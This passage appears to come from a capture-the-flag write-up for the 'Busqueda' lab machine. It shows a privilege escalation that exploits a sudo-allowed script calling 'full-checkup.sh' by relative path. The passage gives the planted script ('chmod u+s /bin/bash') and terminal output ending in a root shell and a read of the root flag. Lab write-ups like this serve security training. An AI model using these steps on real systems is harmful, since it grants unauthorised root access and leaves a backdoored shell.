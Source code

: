 The `full-checkup` seems to run a script, **but it does not specify the absolute path of the script.** As such, we can create a fake copy of this script and execute `chmod u+s /bin/bash`.

We just need to create the malicious script named `full-checkup.sh` and make it executable.

```bash
#!/bin/bash
chmod u+s /bin/bash
```

Afterwards, we can run the script with `sudo` and see that `/bin/bash` is now an SUID.

```
svc@busqueda:~$ chmod +x full-checkup.sh 
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:~$ /bin/bash -p
bash-5.1# id
uid=1000(svc) gid=1000(svc) euid=0(root) groups=1000(svc)
bash-5.1# cat /root/root.txt
<REDACTED>
```

Pwned!
